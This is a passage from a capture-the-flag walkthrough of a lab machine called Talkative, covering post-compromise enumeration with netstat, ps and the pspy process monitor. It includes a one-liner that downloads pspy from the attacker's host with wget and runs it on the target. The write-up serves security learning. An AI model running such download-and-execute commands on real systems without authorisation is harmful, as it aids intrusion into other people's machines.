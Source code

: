 ```shell
tcp        0      0 172.17.0.1:6014         0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6015         0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6000         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6001         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6002         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8082            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -                   
tcp6       0      0 :::8081                 :::*                    LISTEN      -                   
tcp6       0      0 :::8082                 :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

Lots of listening ports on range `6000` to `6015`, we could figure out what those ports is doing.

**Processes:**
```shell
saul@talkative:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
[...]
systemd+    1211  0.9  3.5 1357600 70988 ?       Ssl  07:11   0:56 mongod --smallfiles --replSet rs0 --oplogSize 128 --bind_ip_all
[...]
```

Wait, `mongod`?? That being said, **the host machine or a Docker container is running MongoDB server**.

**Using [`pspy`](https://github.com/DominicBreuker/pspy) to monitor processes:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:55:36(HKT)]
└> file /opt/pspy/pspy64 
/opt/pspy/pspy64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=eLPXwvfdDroLoCiGThdy/ADWkD7F3M81WNJfXu4Bf/E1SsFRH7R_QKLzCzaJmU/fDV0SVhtETqaDiVRM5z9, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:55:45(HKT)]
└> python3 -m http.server -d /opt/pspy 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
saul@talkative:~$ wget http://10.10.14.6/pspy64 -O /tmp/pspy; chmod +x /tmp/pspy; /tmp/pspy
[...]
2023/08/12 09:10:14 CMD: UID=0    PID=1322   | /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8080 -container-ip 172.18.0.2 -container-port 41337 
2023/08/12 09:10:14 CMD: UID=0    PID=132    | 
2023/08/12 09:10:14 CMD: UID=0    PID=1317   | /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8080 -container-ip 172.18.0.2 -container-port 41337 
2023/08/12 09:10:14 CMD: UID=0    PID=1304   | /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8081 -container-ip 172.18.0.2 -container-port 41338 
2023/08/12 09:10:14 CMD: UID=0    PID=130    | 
2023/08/12 09:10:14 CMD: UID=0    PID=13     | 
2023/08/12 09:10:14 CMD: UID=0    PID=1299   | /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8081 -container-ip 172.18.0.2 -container-port 41338 
2023/08/12 09:10:14 CMD: UID=0    PID=129    | 
```